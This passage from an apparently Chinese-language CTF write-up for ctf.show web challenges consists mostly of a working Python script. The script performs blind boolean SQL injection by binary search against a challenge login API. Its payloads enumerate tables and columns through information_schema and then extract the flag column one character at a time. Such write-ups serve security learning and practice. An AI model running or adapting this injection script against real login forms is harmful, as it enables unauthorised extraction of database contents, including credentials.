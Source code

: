 ```python
```

其实也差不多

二分法脚本

```python

# 用了二分法 dejavu~~~
import requests

url = "http://c9b03201-bcdf-42ce-ac5b-c546603c1848.challenge.ctf.show:8080/api/"
# 表名 CtFsHOw{FL0G,CtFsHOw{usEr
# payload = "0' or if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)>'{}',1,0) -- "
# 列名 ID,F1AG,ID,usErNAME,pAss
# payload = "0' or if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1)>'{}',1,0) -- "
# flag
payload = "0' or if(substr((select f1ag from ctfshow_fl0g),{},1)>'{}',1,0) -- "
true_flag = "\\u5bc6\\u7801\\u9519\\u8bef"
result = ""
index = 1
while True:
    start = 32
    end = 127
    while not (abs(start-end) == 1 or start == end):
        p = (start + end) // 2
        data = {
            "username": payload.format(index, chr(p)),
            "password": 0
        }
        response = None
        while True:
            try:
                response = requests.post(url, data=data)
            except:
                continue
            break
        if true_flag in response.text:
            start = p
        else:
            end = p
    if end < start:
        end = start
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1
```



#### web193
